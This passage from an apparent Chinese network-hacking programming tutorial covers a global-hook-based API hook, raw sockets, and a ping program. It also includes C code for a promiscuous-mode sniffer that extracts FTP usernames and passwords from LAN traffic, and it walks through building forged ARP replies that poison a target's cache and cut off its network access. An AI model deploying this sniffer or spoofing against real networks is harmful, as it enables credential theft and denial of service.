读到这里你是不是已经有什么想法了呢？既然钩子的相应消息触发时，系统会为程序加载一次钩子的 DLL 文件，那么我们就可以在实现 API HOOK 的 DLL 文件中同时实现消息钩子，并且由外部程序安装这个消息钩子。

这样每个程序触发相应的消息就会加载一次 DLL 文件，而实现 API HOOK 的函数就在 `DllMain` 调用，那么当 DLL 被加载时就会 HOOK 掉相应的 API 函数。

那么选择安装什么类型的钩子呢？这里我们还是选择安装 `WH_GETMESSAGE` 钩子，因为一个运行的程序基本上都会触发由 `WH_GETMESSAGE` 钩子钩住的消息。

接下来我们再来讨论下钩子回调函数要做些什么。其实它什么都不用做，只需要把消息传递给下一个钩子即可，具体代码如下：

```cpp
LRESULT CALLBACK HookProc(int nCode, WPARAM wParam, LPARAM lParam)
{
    // 把消息传递给下一个钩子
    return CallNextHookEx(g_hHook, nCode, wParam, lParam);
}
```

我们还需要一个导出函数来实现安装钩子，具体代码如下：

```cpp
BOOL StartHook()
{
    if (g_hHook != NULL)
        return FALSE;

    // 安装钩子
    g_hHook = SetWindowsHookEx(WH_GETMESSAGE, HookProc,
                               g_hInstance, NULL);
    return TRUE;
}
```

最后来看看在 `DllMain` 函数中该如何调用，具体代码如下：

```cpp
BOOL APIENTRY DllMain(HANDLE hModule,
                      DWORD ul_reason_for_call,
                      LPVOID lpReserved)
{
    g_hInstance = (HINSTANCE)hModule;
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        // 当 DLL 加载时，挂钩 OpenProcess 函数
        ApiHook("kernel32.dll", OldProc, (PROC)MyOpenProcess);
        break;

    case DLL_PROCESS_DETACH:
        // 当 DLL 卸载时，还原 OpenProcess 函数
        WriteProcessMemory(GetCurrentProcess(), lpAddr, &OldProc,
            sizeof(DWORD), NULL);
        if (g_hHook != NULL) UnhookWindowsHookEx(g_hHook);
        break;
    }

    return TRUE;
}
```

最后只需要编写一个 EXE 程序来调用此 DLL 中的 `StartHook` 函数安装钩子即可，类似的程序在第四章中就已经实现了。到此，我们的进程保护器就完成了。本程序的具体源码在光盘“第五章\API HOOK”下。

## 第六章 数据包嗅探编程

- 原始套接字基础
- 利用 ICMP 原始套接字实现 ping 程序
- 基于原始套接字的嗅探技术
- 利用 Packet32 实现 ARP 攻击

### 6.1 原始套接字基础

前置知识：C/C++ 基础，Winsock 编程基础  
难度：简单  
编译环境：VC++ 6.0  
测试环境：Windows XP

在本书的第一章中我们已经学习了普通套接字编程，在这一章中我们将要学习原始套接字编程。那什么是原始套接字呢？原始套接字是允许访问底层协议的一类套接字，通俗地说也就是它可以对底层数据包进行操作。

在第一章中为了说明数据包的具体封装过程而给出如图 1 所示的流程表。


图 1

由于在第一章中学习的是普通套接字，而此编程接口是和协议无关的，所以到目前为止，我们接触的只是图 1 中的用户数据或者应用数据部分。但是在这一章，我们将进一步学习 IP 首部、TCP 首部和各类数据包封包、解包以及截获。

**原始套接字就是一个编程接口，它可以发送由用户封装了的数据包，接收带有 IP 首部、TCP 首部、UDP 首部等的数据包。**

那么要如何建立原始套接字呢？和普通套接字一样，同样是使用 `socket` 函数。具体调用如下：

```cpp
SOCKET sRaw = socket(AF_INET, SOCK_RAW, IPPROTO_UDP);
```

和创建普通套接字的不同就是把第二个参数（套接字类型）设置为了 `SOCK_RAW`。第三个参数是用来指明协议类型的，可以取以下值：`IPPROTO_ICMP`、`IPPROTO_IGMP`、`IPPROTO_UDP`、`IPPROTO_IP` 或 `IPPROTO_RAW`，其分别对应如下协议：ICMP、IGMP、UDP、IP 和原始 IP。

这里还有一点需要强调：原始套接字可以接收流经本地的网络层及以上的所有数据包。

### 6.2 利用 ICMP 原始套接字实现 ping 程序

- 前置知识：C/C++ 基础、Winsock 编程基础
- 难度：中等
- 编译环境：VC++ 6.0
- 测试环境：Windows XP

> **编程小贴士**  
> **什么是 ICMP 协议？**  
> ICMP 是 “Internet Control Message Protocol”（Internet 控制报文协议）的缩写，它是 TCP/IP 协议族的一个子协议，IP 层的一个重要组成部分，用于在 IP 主机、路由器之间传递控制消息。控制消息是指网络是否通畅、主机是否可达、路由是否可用等网络本身的消息。这些控制消息虽然并不传输用户数据，但是对于用户数据的传递起着重要的作用。

像我们经常用的 ping 程序就是通过 ICMP 协议实现的，本小节我们利用原始套接字发送 ICMP 数据包来实现 ping 程序。

由于这里使用的是原始套接字，那么在发送数据包前必须对数据包进行封装。要封装数据包，我们必须对数据包的结构有一定的了解，下面就来学习下 ICMP 报文的结构，请看图 2。

| 8位类型 | 8位代码 | 16位检验和 |
|---|---|---|
| 不同类型和不同代码有不同的内容 |  |  |

图 2

首先，8 位类型段和 8 位代码段共同决定了 ICMP 报文的类型。类型字段共有 15 个不同的值，有时还结合代码字段共同来描述特定类型的 ICMP 报文。

比如在本小节中我们要实现 ping 程序，必须把发送的 ICMP 数据包的类型段和代码段分别设为 8 和 0。此描述指向了请求回显功能，也就是 ICMP 回显请求报文。那么目标主机回应我们的数据包就是 ICMP 回显应答报文，其类型段和代码段分别为 0 和 0。

接着是 16 位检验和字段，必须由程序进行计算填写。不过算法已经公开，实现过程我们不需要过多关注。

> **编程小贴士**  
> **检验和字段的作用**  
> 检验和字段的作用是检验收到的数据包是否完整。其具体实现过程如下：对报文首部中每个 16 位数据进行二进制反码求和（整个首部看成是由一串 16 位字段组成），然后存入检验和字段中。当收到一份数据包后，同样对首部中的每 16 位数据进行二进制反码求和。由于接收方在计算过程中包含了发送方存入首部的检验和，因此，如果首部在传输过程中没有发生任何差错，那么接收方计算的结果应该为 1。

ICMP 报文最后结构中的内容是由类型字段和代码字段决定的。这里已经指定为 ICMP 回显请求报文，所以具体结构如图 3 所示。

| 类型（8） | 代码（0） | 检验和 |
|---|---|---|
| 标识符 |  | 序号 |
| 选项数据 |  |  |

图 3

此报文中的标识符和序号用来标识一对特定的 ICMP 回显报文。当发送一个 ICMP 回显请求报文后，收到的 ICMP 回显应答报文中的标识符和序号与 ICMP 回显请求报文中的相同，因为这些字段都原样返回了。此过程用以确定收到的报文是否为此 ICMP 回显请求报文的应答报文，并且客户端发送的选项数据也必须原样返回。

这里我们定义的 ICMP 回显报文结构如下：

```cpp
typedef struct icmp_hdr
{
    unsigned char  icmp_type;      // 类型
    unsigned char  icmp_code;      // 代码
    unsigned short icmp_checksum;  // 检验和
    unsigned short icmp_id;        // 标识符
    unsigned short icmp_sequence;  // 序列号
    // 下面是选项数据
    unsigned long  icmp_timestamp; // 时间戳
} ICMP_HDR, *PICMP_HDR;
```

在发送 ICMP 回显请求报文时，`icmp_id`（标识符）一般用来存 Ping 程序进程的 PID。由于在 ICMP 回显应答报文中 `icmp_id`（标识符）会原样返回，所以可以用这个字段来确定收到的 ICMP 回显应答数据包是否是我们发送的数据包的应答报文。

要得到本进程 PID 可以直接调用 `GetCurrentProcessId()` 函数。此函数无参数，调用成功则返回本进程 PID。

`icmp_timestamp`（时间戳）是为了计算 ICMP 回显请求报文发送到 ICMP 回显应答报文时所经过的时间，具体计算过程如下：

在构造 ICMP 回显请求报文时，调用 `GetTickCount()` 函数得到系统从开机到现在的运行时间。此函数无参数，调用成功则返回系统从开机到现在的运行时间，此时间精确到毫秒。当收到 ICMP 回显应答报文时再调用 `GetTickCount()` 函数得到一次时间，两次时间相减，即是 ICMP 回显请求报文发送到 ICMP 回显应答报文时所经过的时间。而 `icmp_sequence`（序列号）在本程序中并未用到。

此报文的具体构造过程如下：

```cpp
ICMP_HDR* pIcmp = (ICMP_HDR*)buff;
// 类型 8
pIcmp->icmp_type = 8;
// 代码 0
pIcmp->icmp_code = 0;
// 标识符为本进程 id
pIcmp->icmp_id = (USHORT)GetCurrentProcessId();
// 检验和先填充为 0
pIcmp->icmp_checksum = 0;

// 时间戳为系统运行时间
pIcmp->icmp_timestamp = GetTickCount();

// 计算检验和
pIcmp->icmp_checksum = checksum((USHORT*)buff, sizeof(ICMP_HDR));
```

到这里 ICMP 报文的结构已经讲完了，但是我们要发送的数据包中并不仅仅只包含一个 ICMP 报文。整个数据包的结构如图 4 所示。

| 以太网首部 | IP 首部 | ICMP 请求回显报文 |
|---|---|---|

图 4

从图 4 中我们可以看到，除了 ICMP 报文外，发送的数据包中还包含了以太网首部和 IP 首部。首先，原始套接字是没有权限访问以太网首部的，在封装数据包时相应的驱动程序会填充以太网首部，所以这部分不需要程序填写。那么 IP 首部能不能让系统为我们填充呢？答案当然是肯定的，我们不使用 IP 头包含选项就可以了。

有一点我们必须要注意：虽然在构造发送的数据时程序只需要构造 ICMP 数据包部分，但是在程序收到的数据包中是包含 IP 首部的。

下面我们来看一下程序的整个流程，如图 5 所示。

从图 5 中可以看到 ping 程序的过程并不复杂，就是构造 ICMP 报文进行发送，然后接收数据，最后分析数据包，再输出结果。下面就来为大家具体讲述下。

首先是一些 Winsock 的初始化工作，包括加载 Winsock 库、建立原始套接字、填写目标主机的 `SOCKADDR_IN` 结构，这些过程和 UDP 客户端的过程是差不多的。此程序中还调用 `setsockopt()` 函数设置了超时，具体代码如下：


```c
// 超时时间
int OutTime = 100;
// 设置超时
setsockopt(sRaw, IPPROTO_IP, IP_TTL, (char*)&OutTime, sizeof(OutTime));
```

下一步是构造 ICMP 回显报文，此过程在介绍 ICMP 报文时已经完成了。接着是发送 ICMP 回显请求报文，这里调用 `sendto()` 函数就能实现，具体代码如下：

```c
// 发送 ICMP 回显请求数据包
nRet = sendto(sRaw, buff, sizeof(ICMP_HDR), 0,
    (SOCKADDR*)&dest, sizeof(dest));
// 发送错误，提示并退出程序
if (nRet == SOCKET_ERROR) {
    printf("sendto failed\n");
    return 0;
}
```

发送完成之后，就调用 `recvfrom` 函数接收 ICMP 回显请求报文。当接收到数据后就要进行数据分析，然后输出结果。前面已经讲过了，收到的数据包是包含 IP 首部的，IP 首部的大小是 20 字节，其结构在以后的章节中会给大家具体讲述。那么这里要做的分析如下：首先从 IP 首部中得到 8 位协议字段，确定 IP 首部之后是否是 ICMP 报文；是，则继续往下读取，然后根据 ICMP 报文中的 `icmp_id`（标识符）判断此 ICMP 报文是否和我们发送的 ICMP 回显请求报文中的 `icmp_id`（标识符）相同。假如相同，则输出 ping 主机的 IP、收到数据包的大小和从发送数据包到收到数据包所经历的时间。

此过程具体代码如下：

```c
// 得到当前系统运行时间
int nTick = GetTickCount();

// 得到 IP 首部
IPHeader *iphdr = (IPHeader*)recvBuf;

// 判断其后是否是 ICMP 报文
if (iphdr->ipProtocol != 0x01)
{
    printf("this is not a icmp packet\n");
    return 0;
}

// 定位到 ICMP 报文首部
ICMP_HDR* pRecvIcmp = (ICMP_HDR*)(recvBuf + 20);

// 判断收到的报文是否和我们发送的报文相对应
if (pRecvIcmp->icmp_id != GetCurrentProcessId())
{
    printf("this is another icmp packet\n");
    return 0;
}

// 输出 ping 主机的 ip
printf("Reply from %s: ", inet_ntoa(from.sin_addr));

// 输出收到的字节数
printf("bytes=%d ", nRet);

// 输出从发送数据包到收到数据包所经历的时间
printf("time=%dms\n", nTick - pRecvIcmp->icmp_timestamp);
```

这样我们的 ping 程序就轻松地实现了。下面来看一下运行效果吧，如图 6 所示。


图 6

### 6.3 基于原始套接字的嗅探器

- 前置知识：C/C++ 基础、Winsock 编程基础
- 难度：难
- 编译环境：VC++ 6.0
- 测试环境：Windows XP

通过前两节的学习，相信大家对原始套接字编程、数据包的构造和发送都有了一定程度的了解。在这一小节，我们将继续学习原始套接字。用它我们可以实现网络数据包的嗅探。在人们的网络安全意识越来越强的今天，嗅探就显得越来越重要了。

在 6.1 小节中已经讲过了，原始套接字可以接收流经本地的网络层及其以上的所有数据包。通俗地说，也就是建立原始套接字后，我们只需要监听套接字，流经本地的网络层及其以上的数据包都会被程序接收。

但是仅仅局限于本机的嗅探其威力是不强大的，而且现在的嗅探工具也没有只嗅探本机数据的。一般的嗅探工具都能对整个局域网的数据进行嗅探。那么我们要怎么实现这一功能呢？还是先来学习下局域网的数据传输过程，再来考虑这个问题吧。

现在局域网的连接方式一般有两种：一种是以集线器（HUB）连接成的局域网（以太网）；还有一种是以交换机连接成的网络（交换式网络）。

首先我们来了解下第一种由集线器 HUB 连接成的局域网。在这种网络中数据是以广播的形式发送的，所以当局域网中的一台主机向目标主机发送数据后，局域网中每台主机的网卡都会收到此数据包，但是网卡内的单片程序会对数据包进行分析。此程序首先读取数据包中的以太网头部，在以太网头部中有目的主机的 MAC 地址，假如此地址和本网卡的 MAC 地址相同，则说明此数据包已经到达目的主机，那么网卡把此数据包传给上一层处理，否则丢弃此数据包。

> **编程小贴士**  
> **什么是广播？**  
> 广播分为第 2 层广播和第 3 层广播。第 2 层广播也称硬件广播，用于在局域网内向所有的结点发送数据，通常不会穿过局域网的边界（路由器），除非它变成一个单播。广播将是一个二进制的全 1 或者十六进制全 F 的地址。第 3 层广播用于在这个网络内向所有的结点发送数据。第 3 层广播也支持平面的老式广播。广播信息是指以某个广播域所有主机为目的的意思，这些被称为网络广播，它们所有的主机位均为 ON。

> **编程小贴士**  
> **什么是 MAC 地址？**  
> MAC 地址即介质访问控制（Media Access Control，简称 MAC）地址，是厂商生产的网卡地址，对于每一台设备是唯一的。该地址定义了计算机间的网络连接，记录在网络接口卡（Network Interface Card，NIC）上的硬件电路上。  
> 介质访问控制地址是由 12 位十六进制数（0～F）共 48 位表示。前 24 位标识网络接口卡的厂商，不同厂商生产的标识不同；后 24 位是由厂商指定的网络接口卡序列号。

那么以交换机连接成的网络又是以怎样的形式传输数据的呢？由于以原始套接字为基础的嗅探技术是嗅探不到此种局域网中的数据的，所以这里只做简单介绍。在交换式网络环境下，当一台主机向另一台主机发送数据包时，此数据包会由交换机发送到指定的网络地址中。

对局域网的数据传输有了一定了解后，我们就能回答上面这个问题了。既然流经每台主机的数据都会被局域网中任意一台主机的网卡接收到，虽然经过判断之后把不是发给自己的数据丢弃了，那么我们能不能不让网卡丢弃这些数据呢？假如可以，此网卡就能收到流经局域网的所有数据了。

这里我们并不需要假如，的确可以！我们只需要把网卡设置成混杂模式，在编程中只需要调用 `ioctlsocket` 函数即可实现。

此函数具体调用如下：

```c
DWORD dwValue = 1;
if (ioctlsocket(sRaw, SIO_RCVALL, &dwValue) != 0)
{
    printf("ioctlsocket error\n");
    return 0;
}
```

ioctlsocket 函数的第一个参数指向了一个 I/O 套接字的句柄，第二个参数指定了对套接字的操作命令，最后一个参数指定了命令所需参数的指针。

当网卡被设置成混杂模式后，再利用原始套接字接收数据，此时就能接收到流经整个局域网的数据了。关键问题解决之后，我们来看一下嗅探程序的基本流程，如图 7 所示。

从图 7 中可以看到，程序的流程非常简单！首先是原始套接字的一些初始化操作，建立套接字，绑定到本地的一个 IP 等。为了能够接收流经局域网中的所有数据，接着必须把网卡设置成混杂模式，然后是一个循环，反复地接收数据和分析数据。对于我们的嗅探程序来说，分析的当然是数据包中的用户名和密码了。


到这里我们对嗅探程序应该有一个总体的了解了，接着就可以开始动手编写嗅探程序了。我们要实现一个嗅探 FTP 密码的程序。这个程序的难点是什么呢？当然是对数据包的分析了。所以首先来了解下 FTP 数据包的结构，具体如图 8 所示。

| 以太网首部 | IP 首部 | TCP 首部 | FTP 报文 |
|---|---|---|---|

当然我们利用原始套接字收到的数据包是没有以太网首部的，所以在程序中不需要考虑这部分数据。为了让大家更形象地了解 FTP 数据包的结构，请看图 9。

这是用 Iris Network Traffic Analyzer 抓到的 FTP 数据包，Iris 是一个非常强大的数据包分析工具。图 9 中第二层的每一个类似文件夹的节点就是一个协议的报文：MAC header 是以太网首部；IPv4 header 是 IP 首部；TCP header 是 TCP 首部；File Transfer Protocol 是 FTP 报文。


下面我们就来具体了解下 IP 首部、TCP 首部和 FTP 报文的结构。首先是 IP 首部，它的具体结构如图 10 所示。

在图 10 所示的 IP 报文结构中，20 字节长度部分就是 IP 首部。我们并不需要了解 IP 首部中的所有内容，这里挑选几个重要的字段给大家讲述。

4 位版本指定了 IP 协议的版本号，目前此字段设为 4，因此 IP 有时也称为 IPv4。首部长度是指首部占 32bit 字的数目，包括任何选项。它是一个 4 比特的字段，因 IP 首部最长为 60 字节。16 位总长度指定了整个 IP 数据包的长度。8 位协议指定了下一层报文的协议，FTP 数据包中此项为 6，表示下一层是 TCP 报文。32 位源 IP 地址指定了此数据包发送方的 IP。32 位目的 IP 地址指定了此数据包发送的目的 IP。在 VC++6.0 中 IP 首部可以定义为如下结构：

| 字段1 | 字段2 | 字段3 | 字段4 |
|---|---|---|---|
| 4位版本 | 4位首部长度 | 8位服务类型 | 16位总长度（字节数） |
| 16位标识 | 3位标志 | 13位片偏移 |  |
| 8位生存时间（TTL） | 8位协议 | 16位首部校验和 |  |
| 32位源IP地址 |  |  |  |
| 32位目的IP地址 |  |  |  |
| 选项（如果有） |  |  |  |
| 数据 |  |  |  |

图 10

```c
typedef struct _IPHeader
{
    UCHAR  iphVerLen;      // 版本号和首部长度（各占4位）
    UCHAR  ipTOS;          // 8位服务类型
    USHORT ipLength;       // IP数据包总长度
    USHORT ipID;           // 16位标识
    USHORT ipFlags;        // 3位标志和13位片偏移
    UCHAR  ipTTL;          // 8位生存时间
    UCHAR  ipProtocol;     // 8位协议（TCP/UDP/ICMP等）
    USHORT ipChecksum;     // 16位首部校验和
    ULONG  ipSource;       // 32位源IP地址
    ULONG  ipDestination;  // 32位目的IP地址
} IPHeader, *PIPHeader;
```

下面我们再来了解下 TCP 报文的结构，如图 11 所示。TCP 首部不计选项字段长度，它的长度通常是 20 字节。这里我们只需要关注下 16 位源端口号和目的端口号，它们分别指向了客户端和服务器端的端口号。在 VC++6.0 中，TCP 首部可以定义为如下结构。

| 字段1 | 字段2 | 字段3 | 字段4 |
|---|---|---|---|
| 16位源端口号 | 16位目的端口号 |  |  |
| 32位序号 |  |  |  |
| 32位确认序列号 |  |  |  |
| 4位首部长度 | 保留（6位） | 6位标志比特 | 16位窗口大小 |
| 16位检验和 | 16位紧急指针 |  |  |
| 选项 |  |  |  |
| 数据 |  |  |  |

图 11

```c
typedef struct _TCPHeader
{
    USHORT sourcePort;         // 16位源端口号
    USHORT destinationPort;    // 16位目的端口号
    ULONG  sequenceNumber;     // 32位序列号
    ULONG  acknowledgeNumber;  // 32位确认号
    UCHAR  dataOffset;         // 高4位表示数据偏移
    UCHAR  flags;              // 6位标志比特
    USHORT window;             // 16位窗口大小
    USHORT checksum;           // 16位校验和
    USHORT urgentPointer;      // 16位紧急指针
} TCPHeader, *PTCPHeader;
```

最后我们还需要了解下 FTP 数据包的结构。由于 FTP 数据包并没有单一的结构，所以我们这里用抓包的方式来了解发送用户名和密码时的数据包结构，如图 12 和图 13 所示。

```text
00 1B FC 6E F5 BC 00 14 85 CA F4 8B 08 00 45 00
00 42 14 CE 40 00 40 06 10 A1 79 C0 11 29 79 C0
11 5E 06 64 00 15 DC 27 BD 24 7E 83 5B 34 80 18
FA EB E2 15 00 00 01 01 08 0A 00 01 1A 11 00 01
08 99 55 53 45 52 20 65 73 63 29 33 32 62 27 00 0D 0A
```

图 12

```text
00 1B FC 6E F5 BC 00 14 85 CA F4 8B 08 00 45 00
00 41 14 15 40 00 40 06 10 99 79 C0 11 29 79 C0
11 5E 06 64 00 15 DC 27 BD 32 7E 83 5B 57 80 18
FA E2 B0 36 00 00 01 01 08 0A 00 01 1A 2B 00 01
08 BD 50 41 53 53 20 31 72 66 65 6D 79 6C 22 0D 0A
```

图 13

图 12 和图 13 中选中部分就是 FTP 报文，图 12 中 USER 空格之后就是用户名，图 13 中 PASS 空格之后就是密码。所以在分析数据包过程中就可以把 USER 和 PASS 作为用户名和密码出现的标志。

下面我们就通过编程来分析数据包，具体过程如下：

- 首先查看 IP 首部的 ipProtocol（8 位协议）字段和 TCP 首部的 destinationPort（目的端口号）字段，看是否是 TCP 数据包，并且端口号是否是 21。
- 假如是，则说明是 FTP 数据包，那么进一步定位到 FTP 数据包部分，比较有无“USER”或“PASS”特征字符串出现。
- 假如存在特征字符串，则读出用户名或密码，最后输出目标 IP 地址、用户名和密码。

此过程已经封装成了一个函数，具体代码如下：

```c
void GetPassWord(char *buff)
{
    // 保存用户名
    char UserName[256];
    // 保存密码
    char PassWord[256];
    // 定位到IP首部
    IPHeader *Iphdr = (IPHeader*)buff;
    // 定位到TCP首部
    TCPHeader *Tcphdr = (TCPHeader*)&buff[sizeof(IPHeader)];
    // 比较协议是否是TCP协议，目的端口号是否是FTP端口号
    if (Iphdr->ipProtocol != IPPROTO_TCP || ntohs(Tcphdr->destinationPort) != 21)
        return;

    // 定位到FTP报文
    char *FtpData = (char*)&buff[sizeof(IPHeader) + sizeof(TCPHeader)];

    // 比较“USER”特征字符
    if (strnicmp(FtpData, "USER", 5) == 0)
    {
        // 得到用户名
        sscanf(FtpData + 4, "%*[^ ]%s", UserName);
    }

    // 比较“PASS”特征字符
    if (strnicmp(FtpData, "PASS", 5) == 0)
    {
        // 得到密码
        sscanf(FtpData + 4, "%*[^ ]%s", PassWord);
    }

    // 输出目的IP
    printf("目的IP：%s\n", inet_ntoa(*(in_addr*)(&Iphdr->ipDestination)));

    // 输出用户名
    printf("用户名：%s\n", UserName);

    // 输出密码
    printf("密码：%s\n", PassWord);
}
```

这样，程序数据包分析部分的代码就实现了。我们再看看图 7，程序只剩下第一和第三个过程没有实现。其中接收数据包的过程非常简单，只需要调用 `recv()` 函数即可。我们来看第一个过程，有时由于一台主机有两块或两块以上网卡，所以必须选择把套接字绑定在哪块网卡的 IP 上。这个设置在本程序中留给用户来进行选择，具体代码如下：

```c
struct hostent *pHost;

// 得到本机计算机名
gethostname(szHostName, 56);

// 通过计算机名得到IP
if ((pHost = gethostbyname((char*)szHostName)) == NULL)
    return 0;

in_addr addr;
sockaddr_in addr_s;
int i;

// 循环输出IP地址
for (i = 0;; i++) {
    char *p = pHost->h_addr_list[i];
    if (p == NULL)
        break;
    memcpy(&addr.S_un.S_addr, p, pHost->h_length);
    printf("第%d个ip：%s\n", i + 1, inet_ntoa(addr));
}

printf("请输入要绑定在哪个ip上：");
int num;

// 选择要监听的IP地址
scanf("%d", &num);
if (num < 1 || num > i) {
    printf("输入错误\n");
    return 0;
}

// 填写 sockaddr_in 结构
addr_s.sin_family = AF_INET;
addr_s.sin_port = htons(0);
memcpy(&addr_s.sin_addr.S_un.S_addr, pHost->h_addr_list[num - 1], pHost->h_length);

// 绑定套接字到指定IP
if (bind(sRaw, (PSOCKADDR)&addr_s, sizeof(addr_s)) == SOCKET_ERROR) {
    printf("bind error\n");
    return 0;
}
```

程序其他部分的代码是比较简单的，其执行效果如图 14 所示。此程序具体源码在光盘“第六章\GetFtpPass”下，欢迎参考。


### 6.4 利用 Packet32 实现 ARP 攻击

- 前置知识：C/C++ 基础、Winsock 编程基础
- 难度：难
- 编译环境：VC++6.0
- 测试环境：Windows XP

虽然原始套接字可以发送由程序构造的数据包，并且还可以接收流经本地的网络层及其以上的数据包，但是它还是有一定局限的。比如，不能访问以太网首部；在 Windows XP SP2 下不能伪造 IP 首部中的源 IP 地址；不能发送原始 TCP 数据包。所以许多功能利用原始套接字是无法实现的，比如 ARP 攻击、伪造数据包等。

本小节将学习一套新的网络编程接口，它就是大名鼎鼎的 Packet32！大家可能已经发现了，现在很多 ARP 欺骗工具，必须安装 WinPcap 后才能运行，比如 Cain、arpspoof 等。这些 ARP 欺骗工具都是用 WinPcap 开发包编写的，而 WinPcap 又是 Packet32 开发包的杰作，并且 WinPcap 中自带了 Packet32，它是由 Politecnico di Torino 重写的，增加了许多错误处理。本小节我们用的就是这个 Packet32 开发包。

那么 Packet32 开发包到底有什么优点呢？Packet32 是一个驱动级的编程包，所以它提供的接口都是基于驱动的。那么通过 Packet32 编写的程序就能轻松地对链路层的数据包进行操作（访问、修改以太网首部），并且它的稳定性也是非常值得信任的。而且对于我们来说也是非常容易上手的，因为 Packet32 提供的函数和 API 函数在格式上非常相似。

在开始编程前，我们必须下载 WinPcap 的 DDK 编程包，里面包含了很多头文件（.h）和很多连接文件（.lib）。为了方便以后调用，分别把它们复制到“Microsoft Visual Studio\VC98\Include”和“Microsoft Visual Studio\VC98\Lib”下即可。这样直接在 VC 中就可以引入头文件和连接文件了。

在本小节中，我们就通过调用 Packet32 包中的函数来实现一个 ARP 攻击工具。在揭示本工具的原理之前，必须先了解下 ARP 协议的工作原理。

#### 编程小贴士

**什么是 ARP 协议？**

我们都知道以太网设备（比如网卡）都有自己全球唯一的 MAC 地址，以太网数据包是以 MAC 地址来传输的，但是网卡却识别不了我们 IP 包中的 IP 地址，所以我们在以太网中进行 IP 通信的时候，就需要一个协议来建立 IP 地址与 MAC 地址的对应关系，以使 IP 数据包能发到一个确定的地方去，这就是 ARP 协议。

我们可以在 cmd 下输入 `arp -a` 命令看看，如图 15 所示。


这就是存储在我们电脑中的 ARP 缓存，它记录了 IP 地址与 MAC 地址的对应关系。dynamic 表示是临时存储在 ARP 缓存中的条目，过一段时间就会超时被删除（XP/2003 系统是 2 分钟）。

那么在以太网中传输数据包的过程又是怎样的呢？比如我们的电脑要和一台 IP 为 121.192.17.41 的主机通信时，我们的系统会首先去检查 ARP 缓存，查找是否有对应的 ARP 条目。如果有，则直接利用 ARP 缓存中对应的 MAC 地址传输数据；如果没有，它就会给这个以太网络发 ARP 请求包，广播询问 121.192.17.41 的对应 MAC 地址。

当然，网络中每台电脑都会收到这个请求包，但是它们发现 121.192.17.41 并非自己，就不会做出应答，而 121.192.17.41 就会给我们的电脑回复一个 ARP 应答包，告诉我们它的 MAC 地址是 00-14-85-CA-F4-8B。于是我们电脑的 ARP 缓存就会相应刷新，多了这么一条，如图 16 所示。


图 16

为什么要有 ARP 缓存机制呢？每通信一次发送一次 ARP 请求包广播不就可以了吗？但是这样就会浪费大量的带宽了，可能会造成网络堵塞。

了解了 ARP 协议的工作原理，也该为大家揭示本小节中 ARP 攻击工具的原理了。此程序的原理非常简单：本地构造一个 ARP 响应数据包，这是一个伪造的数据包，其目的是告诉要攻击的主机，网关的 MAC 地址为我们主机的 MAC 地址，那么在目标主机的 ARP 缓存中就会有这么一个条目：

```text
Internet Address      Physical Address      Type
121.192.17.1         00-1B-FC-6E-F5-BC    dynamic
```

其中 121.192.17.1 是网关，而 00-1B-FC-6E-F5-BC 是我们主机网卡的 MAC 地址。那么通信过程中目标主机发送给网关的数据就会发送到我们主机的网卡，这样一来目标主机也就不能上网了。

了解了原理之后我们也就知道，只需要构造 ARP 应答数据包并发送到目标主机即可。那么就先来学习下 ARP 数据包的结构。一个 ARP 数据包的基本结构如图 17 所示。


图 17

从图 17 中可以看到，其实 ARP 数据包非常简单，一个以太网首部加一个 ARP 报文。由于本小节发送数据包是通过 Packet32 开发包的函数实现的，而这个开发包又是可以访问链路层的，所以以太网首部也必须由程序填写。我们先来了解一下以太网首部的结构，如图 18 所示。


图 18

以太网报头中的前两个字段是以太网的源地址和目的地址，目的地址全为 1 的特殊地址是广播地址。2 字节长的以太网帧类型标识后面数据的类型，对于 ARP 请求和应答来说，该字段的值为 0x0806。

那么在 VC++ 6.0 中，以太网首部可以定义为如下结构：

```c
typedef struct ehdr
{
    unsigned char  eh_dst[6];   // 目的MAC地址
    unsigned char  eh_src[6];   // 源MAC地址
    unsigned short eh_type;     // 帧类型
} ETHDR, *PETHDR;
```

接下去我们再来了解下 ARP 报文的结构，如图 19 所示。

硬件类型字段表示硬件地址的类型，它的值为 1 则表示以太网地址。协议地址类型表示要映射的协议地址类型，它的值为 0x0800，表示 IP 地址。接下来是两个 1 字节的字段，硬件地址长度和协议地址长度分别指出了硬件地址和协议地址的长度，以字节为单位。对于以太网上 IP 地址的 ARP 请求和应答来说，它们的值分别为 6 和 4。

操作类型字段指出了四种操作类型，它们是 ARP 请求（值为 1）、ARP 应答（值为 2）、RARP 请求（值为 3）和 RARP 应答（值为 4）。

接下来四个字段是发送端的硬件地址（MAC 地址）、发送端的协议地址（IP 地址）、目的端的硬件地址和目的端的协议地址。这里有了一些重复信息，在以太网的数据帧包头中和 ARP 请求数据帧中都有发送端的硬件地址。

在 VC++ 6.0 中，ARP 报文可以定义为如下结构：

```c
typedef struct arphdr
{
    unsigned short arp_hdr;     // 2字节硬件类型
    unsigned short arp_pro;     // 2字节协议类型
    unsigned char  arp_hln;     // 1字节硬件地址长度
    unsigned char  arp_pln;     // 1字节协议地址长度
    unsigned short arp_op;      // 2字节操作类型
    unsigned char  arp_sha[6];  // 6字节发送端MAC地址
    unsigned char  arp_spa[4];  // 4字节发送端IP地址
    unsigned char  arp_tha[6];  // 6字节目的MAC地址
    unsigned char  arp_tpa[4];  // 4字节目的IP地址
} ARPHDR, *PARPHDR;
```

学习了 ARP 数据包的结构之后，接下去要做的就是构造欺骗数据包。那么具体怎么构造呢？首先我们来强调几个关键的字段。

在以太网首部中，eh_dst（目的 MAC 地址）填写要攻击主机的 MAC 地址；eh_src（源 MAC 地址）当然是填写本地主机网卡的 MAC 地址了；eh_type（帧类型）设为 0x0806。

以太网首部这么设置就可以了，接着来关注 ARP 报文中的几个重要字段的设置：

- arp_op 操作类型设为 2，表示 ARP 应答报文；
- arp_sha[6]（发送端 MAC 地址）设为本地主机的 MAC 地址；
- arp_spa[4]（发送端 IP 地址）设为网关的 IP 地址，这也就是构造 ARP 攻击数据包的关键。当目标主机收到这个 ARP 数据包时，就会把 arp_sha[6] 中的 MAC 地址和 arp_spa[4] 中的 IP 地址关联起来。这样对方就会把我们的 MAC 地址当作是网关的 MAC 地址，它通信的数据就会发送到我们主机的网卡上，这样它就上不去网了；
- arp_tha[6] 和 arp_tpa[4] 字段分别设为目标主机的 MAC 地址和 IP 地址。

构造攻击数据包的关键也就是这些了，但是事事不会总是那么顺利，我们还有问题没有解决：怎么得到本地网卡 MAC 地址和目标主机的网卡 MAC 地址呢？

